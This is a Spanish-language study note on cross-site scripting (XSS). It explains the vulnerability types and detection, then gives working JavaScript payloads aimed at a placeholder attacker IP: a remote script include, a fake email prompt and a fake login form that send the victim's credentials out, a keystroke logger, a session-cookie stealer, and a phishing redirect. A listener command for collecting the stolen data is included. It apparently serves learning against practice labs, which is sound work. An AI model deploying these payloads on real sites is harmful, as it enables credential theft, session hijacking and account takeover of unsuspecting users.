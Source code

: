 ---------
- Tags: #OWASP_TOP_10 #vulnerabilidad #hacking #XSS
--------------
# Definición

> Es un tipo de [[Vulnerabilidades web]] que permite a un atacante inyectar en la página código **JavaScript** o un lenguaje similar. Estos scripts pueden ser ejecutados en el navegador de la víctima, permitiendo al atacante robar información, tomar control de cuentas o realizar actividades perjudiciales en el contexto del usuario afectado.

Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:

- **Reflejado** (**Reflected**): Este tipo de XSS se produce cuando los datos proporcionados por el usuario **se reflejan en la respuesta** HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario.
- **Almacenado** (**Stored**): Este tipo de XSS se produce cuando un atacante **es capaz de almacenar código malicioso** en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
- **DOM-Based**: Este tipo de XSS se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

# Detección de vulnerabilidad

Para detectar si una página web es vulnerable a **XSS**, necesitamos ver en algún lado de la página web algo que hayamos publicado, por ejemplo, si es una página web con la posibilidad de subida de posts, dichos post quedarán mostrados en la página. 

Si ocurre lo mencionado, podemos hacer uso de **etiquetas html** (h1,h2,marquee...), para comprobar si es vulnerable a **HTML Injection**, y si es así, podríamos intentar un pequeño script escrito en **JavaScript** para terminar de confirmar la vulnerabilidad, por ejemplo:

```JavaScript
<script> alert("ALERTA"); </script>
```

de manera que si la página web es vulnerable, saltará una ventana emergente mostrando "**ALERTA**".


Todos los scripts que vamos a utilizar de ahora en adelante, no tienen porque estar localmente en la máquina víctima, sino que podemos hacer uso del siguiente comando para ejecutar un script de manera remota (no haría falta que el script incluya las etiquetas de script):

```JavaScript
<script src="http://<IP_ATACANTE>/test.js"></script>
```

# XXS + ingeniería social

Si una página es vulnerable a **XSS**, podemos emplear uso de **ingeniería social** para recopilar información que envíen los usuarios que caigan en nuestra trampa. Podemos hacer uso del siguiente script, que **solicita al usuario su correo** para poder acceder en este caso a un post:

```JavaScript
<script>
	var email = prompt("Por favor, introduce tu correo para visualizar este post", "example@example.com");
	
	if (email == null || email == ""){
		alert("Es necesario introducir un correo válido para poder visualizar el post");
	}
	else{
		fetch("http://<IP_ATACANTE>/?email=" + email);
	}
</script>

```

Pero claro, ya que estamos, podemos solicitar además del **correo**, la **contraseña** del usuario, de manera que si introduce los datos solicitados, tendríamos acceso a su cuenta:

```JavaScript
<div id="formContainer"></div>

<script>
 var email;
 var password;
 var form = '<form>' +
  'Email: <input type="email" id="email" required>' +
  ' Contraseña: <input type="password" id="password" required>' +
  '<input type="button" onclick="submitForm()" value="Submit">' +
  '</form>';

 document.getElementById("formContainer").innerHTML = form;
 
 function submitForm() {
  email = document.getElementById("email").value;
  password = document.getElementById("password").value;
  fetch("http:/<IP_ATACANTE>/?email=" + email + "&password=" + password);
 }
</script>

```

En ambos casos, debemos abrir previamente un servidor http para que nos lleguen los mensajes enviados:

```bash
python3 -m http.server 80 
```


A parte de esto, podemos realizar un **redirigimiento** para que el infectado visite otra página web, que podíamos tener previamente preparada para realizar un ataque de [[Phishing]], o a cualquier otro sitio de interés:

```JavaScript
window.location.href = "<URL>";
```


Aún así, este tipos de ataques depende de nuestra capacidad con [[Ingeniería social]], y la incredulidad del usuario que visite nuestra parte de la web infectada.

# XSS Keylogger

Un keylogger, es una especie de malware que envía al atacante las teclas que ha pulsado el infectado. Para ello podemos hacer uso del siguiente script en **JavaScript** suponiendo que es vulnerable a **XSS**:

```JavaScript
<script>
	var k = "";
	document.onkeypress = function(e){
		e = e || window.event;
		k += e.key;
		var i = new Image();
		i.src = "http://<IP_ATACANTE>/" + k;
	};
</script>
```

También es necesario tener un servidor abierto, y además podemos filtrar para que solo nos muestre la información que queramos de la siguiene manera:

```bash
python3 -m http.server 80 | grep -oP 'GET /\K[^.*\s]+'
```


# XSS [[Cookie Hijacking]]

Si no está habilitado el campo de **HTTPOnly** en la cookie de sesión de un usuario, podemos hacer uso del siguiente script para intentar capturar dicha cookie y enviarla al atacante:

```JavaScript
<script> 
var request = new XMLHttpRequest(); 
request.open('GET', 'http://<IP_ATACANTE>/?cookie=' + document.cookie); 
request.send(); 
</script>
```

Una vez obtenida la cookie, podemos **introducirnos en la sesión** de dicho usuario, y actuar como si fuéramos el mismo.

# Ejemplos prácticos

[Gossip World](https://github.com/globocom/secDevLabs) 
[Máquina de vulnhub](https://www.vulnhub.com/entry/myexpense-1,405/)